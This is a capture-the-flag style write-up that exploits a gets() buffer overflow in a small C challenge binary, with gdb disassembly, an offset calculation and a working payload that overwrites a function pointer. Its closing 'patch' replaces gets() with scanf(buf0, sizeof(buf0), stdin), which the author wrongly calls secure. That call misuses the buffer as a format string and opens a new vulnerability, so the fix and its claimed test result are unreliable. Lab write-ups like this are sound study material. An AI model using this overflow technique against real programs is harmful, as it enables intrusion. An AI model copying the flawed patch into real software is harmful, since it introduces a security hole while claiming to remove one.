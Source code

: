 Let's look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

	printf("Level Cleared\n");
}

int main()
{
	char buf1[55];
	char buf0[300];
	volatile int (*var1)();
	var1 = 0;

	gets(buf0);

	if (var1)
	{
		printf("Wait, you aren't supposed to be here\n");
		var1();
	}

	else
	{
		printf("O look you didn't solve this. How very predictable\n");
	}
}
```

So we can see that our objective lies in the nothing_interesting() function. However it doesn't call it anywhere in the main function.
However it does call a function, which was declared as a volatile int. In addition to that it has a buffer overflow vulnerabillity where it uses gets() to read into buf0.
So we should be able to exploit this program by overflowing buf0 to rewrite var1 with the address of the nothing_interesting() function.
This way, the if then statement will evaluate as true and when the var1() call runs, it will run the nothing_interesting() function. Also
buf1 doesn't serve any purpose as far as I can tell. It's just there to troll with you. So let's solve this with gdb.

First fire up gdb
```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ gdb ./b2 
```

One wall of text later...

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048454 <+0>:	lea    ecx,[esp+0x4]
   0x08048458 <+4>:	and    esp,0xfffffff0
   0x0804845b <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804845e <+10>:	push   ebp
   0x0804845f <+11>:	mov    ebp,esp
   0x08048461 <+13>:	push   ecx
   0x08048462 <+14>:	sub    esp,0x174
   0x08048468 <+20>:	mov    DWORD PTR [ebp-0xc],0x0
   0x0804846f <+27>:	sub    esp,0xc
   0x08048472 <+30>:	lea    eax,[ebp-0x16f]
   0x08048478 <+36>:	push   eax
   0x08048479 <+37>:	call   0x8048300 <gets@plt>
   0x0804847e <+42>:	add    esp,0x10
   0x08048481 <+45>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x08048485 <+49>:	je     0x804849e <main+74>
   0x08048487 <+51>:	sub    esp,0xc
   0x0804848a <+54>:	push   0x8048550
   0x0804848f <+59>:	call   0x8048310 <puts@plt>
   0x08048494 <+64>:	add    esp,0x10
   0x08048497 <+67>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804849a <+70>:	call   eax
   0x0804849c <+72>:	jmp    0x80484ae <main+90>
---Type <return> to continue, or q <return> to quit---
   0x0804849e <+74>:	sub    esp,0xc
   0x080484a1 <+77>:	push   0x8048578
   0x080484a6 <+82>:	call   0x8048310 <puts@plt>
   0x080484ab <+87>:	add    esp,0x10
   0x080484ae <+90>:	mov    eax,0x0
   0x080484b3 <+95>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080484b6 <+98>:	leave  
   0x080484b7 <+99>:	lea    esp,[ecx-0x4]
   0x080484ba <+102>:	ret    
End of assembler dump.
```

So right now, we are looking at the assembly code. First thing we should figure out is how much data we will need to input in order to overflow the buffer and write over the
var1 volatile int. Let's see if we can find out where in memeory the buffer starts.

```
   0x08048472 <+30>:	lea    eax,[ebp-0x16f]
   0x08048478 <+36>:	push   eax
   0x08048479 <+37>:	call   0x8048300 <gets@plt>
```

Looking here we can see the assembly call for the gets() function. We know that the gets() function uses buf0 (the buffer we are after) as it's argument.
Thing is we see the lea instruction with a stack position. The lea address prepares an area of memory (like a buffer) to be pushed onto the stack and used by a function.
Since function paramters are pushed onto the stack right before the function is called, it is probably the buffer we are after which is stored at ebp-0x16f.

Next we need to see where the int is stored. We know that it is used in an if then statement, which assembly does that through the use of a cmp function (cmp function just compares two things by subtracting one from another).

```
   0x08048481 <+45>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x08048485 <+49>:	je     0x804849e <main+74>
```

So we can see that a value on the stack is being compared to 0 (which is what ints are compared to in an if then statment like the one were dealing with).
So we can be pretty sure that the stack location is ebp-0xc.

So we know the two stack loactions. let's caluclate the differece using python.

```
guyinatuxedo@tux:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x16f - 0xc
355
>>> exit()
```

So as you can see, the difference is 355 bytes. So we should be able to write 356 characters and overflow the variable. Let's try it.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ echo `python -c 'print "1"*356'` | ./b2
Wait, you aren't supposed to be here
Segmentation fault (core dumped)
```

So we have determined the buffer. Next thing is we need the address of the nothing_interesting() function. We can get it using objdump.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ objdump -D b2 | grep nothing_interesting
0804843b <nothing_interesting>:
```

So we have the address of the nothing_interesting() function which is 0x0804843b. So let's consrtuct the payload. Our payload will consist of two entities.

```
Filler = 355 characters

Address = 0x0804843b (in little endian)
```

So let's try our exploit...

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ echo `python -c 'print "0"*355 + "\x3b\x84\x04\x08"'` | ./b2
Wait, you aren't supposed to be here
Level Cleared
```

And just like that, we pwned the binary. 


Now let's patch the program. 

````
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

	printf("Level Cleared\n");
}

int main()
{
//	char buf1[55];
	char buf0[300];
	volatile int (*var1)();
	var1 = 0;

	scanf(buf0, sizeof(buf0), stdin);

	if (var1)
	{
		printf("Wait, you aren't supposed to be here\n");
		var1();
	}

	else
	{
		printf("O look you didn't solve this. How very predictable\n");
	}
}
```

So as you can see we replaced the gets() function with a secure implementation of the scanf() function. In addition to that we commented out the unused buf1 buffer.
Now let's see if we actually patched it.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ echo `python -c 'print "0"*355 + "\x3b\x84\x04\x08"'` | ./b2_secure
O look you didn't solve this. How very predictable
```

And just like that, we patched the binary

